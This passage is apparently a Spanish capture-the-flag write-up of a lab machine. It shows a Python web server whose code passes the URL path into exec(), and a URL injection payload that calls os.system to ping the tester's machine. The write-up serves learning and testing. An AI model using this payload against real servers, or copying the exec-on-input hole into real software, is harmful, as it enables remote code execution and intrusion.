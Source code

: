 ## Fase de Explotación

Observamos que el archivo es un archivo python, por tanto nos traemos el archivo y al revisarlo vemos que en la linea 139 se está ejecutando *exec(...)* al llamar a la web,el cual podemos explotar para poder obtener acceso al servidor y también que se está incluyendo la librería **os** lo que nos da una potencial forma de ingresar al sistema.

> curl -s -X GET "http://10.10.10.168:8080/develop/SuperSecureServer.py" -o content/SuperSecureServer.py

```python
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

[...]
      def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
 l           if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

Para probar si podemos ejecutar comandos abusando de esta explotación realizamos la siguiente prueba

Nos ponemos en escucha a los paquetes ICMP que nos lleguen:

> sudo tcpdump -i tun0 icmp -n

y si añadimos la siguiente linea a la solicitud

> index.html'; os.system('ping -c 1 10.10.14.8');'

Ingrsando por la web

> http://10.10.10.168:8080/index.html'; os.system('ping -c 1 10.10.14.8');'


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>